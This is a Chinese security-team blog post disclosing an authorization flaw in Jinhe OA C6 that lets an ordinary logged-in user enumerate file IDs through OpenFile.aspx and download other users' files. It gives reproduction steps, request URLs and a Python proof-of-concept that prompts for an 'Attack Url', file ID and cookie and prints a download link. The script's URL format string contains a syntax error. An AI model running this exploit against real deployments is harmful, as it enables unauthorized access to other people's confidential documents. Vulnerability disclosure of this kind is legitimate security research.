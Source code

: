 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9Jv_iZSxCi3T-tYb2FdgmA)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：PeiQi  
本文字数：800

阅读时长：5min

附件 / 链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

**_前言_**

  

一、

**_漏洞描述_**

金和 OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

二、

**_漏洞影响_**

金和 OA C6  

三、

**_漏洞复现_**

登录后点击信息交流，发起协同页面

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibx7FHwGq3r8M5EtNkCI9vjoARubyqWvxGHHZZXD1Gq1qw7yOUPSicGYw/640?wx_fmt=png)

上传附件并上传发送给目标

这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibjVWrfXlIQAbiaCJPia5qEyMRzHBA7lf5Ex0k7KicT0lwiakcrWnNZm3s2Q/640?wx_fmt=png)

成功收到上传的附件

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibBWWystq5plxa58b4iazWnS4B2icgosCywoO4TWRibJP1KE0fUE0qwuasg/640?wx_fmt=png)

点击查看时抓包，发现一个带有文件 ID 的请求包

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibWIVTpV1gNQAheSvPzfibT1KUgod5GP8puK2gHo2pOibiayPiaFmhUEkYfg/640?wx_fmt=png)

返回了几个参数

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id 参数为另一个值，且测试后发现 name 文件名参数无关紧要

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicib5mBKIZolNNwmB9UCtw7uwdkleJIicGy6JIickArHXBFx1zJmVlZLkYzw/640?wx_fmt=png)

改 ID 后发送请求包发现获得另一个文件的信息

访问 Url，注意 **type 参数** 需要为正确的文件后缀才可以访问

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibJO59L1KWoMT9cJrictAia0UN5h7IADkmmv4MiaHgTkzycnjZnYFENxpHA/640?wx_fmt=png)

这里更换一个普通用户测试是否可行，尝试遍历 id

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibgDkoTXed9CKruMZ41Sts06DGT1FD6cxYa30iakuJQ8RXgIvNDhbbwvg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibvPcHib8wB4ibwmh73LDqxobYGFK36etWBNoPV9Vl79brl46RmcOv0mCg/640?wx_fmt=png)

存在 **strFilePath 参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibrcy8gr2ialmBcmxlAJetV8JFicZOb0EYQr7JToYAT3Uf0v2NcVqcNicIQ/640?wx_fmt=png)

于是只需要通过刚刚的 ID 遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

四、

**_漏洞 POC_**

```
POC只检测是否存在漏洞，且漏洞存在于后台需要登录
运行后访问链接即可下载文件
```

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&.format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号：{}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzCcJfxe2zdty9zuqcIUBibicibLAV2Z7DssubXxoLCTQr9iaHyYLBQhbCqjtVwa1CCctl1cjWvH6jvVWg/640?wx_fmt=png)

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDCc55WbFiasXQV2ZDzFo8NclAZ2LicCiaeLqxOD3AticSzDm7rRACia7M9m4pickkG8pXR2w1L8maEoBSw/640?wx_fmt=png)

推荐一下 PeiQi 的个人公众号~

公众号

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)